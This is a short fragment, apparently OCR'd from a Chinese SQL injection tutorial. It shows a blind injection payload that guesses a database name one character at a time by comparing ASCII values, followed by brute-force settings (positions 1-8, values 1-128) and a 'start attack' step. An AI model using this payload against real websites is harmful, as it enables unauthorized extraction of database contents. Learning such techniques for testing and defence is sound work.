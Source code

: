 *******获取数据库名**

**?id=2' and ascii(substr(database(),1,1))=1--+**

![img](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70-20201112153611090.png)

 

**字典**

**第一个变量****1-8**

**第二个变量****1-128**

**start attack**
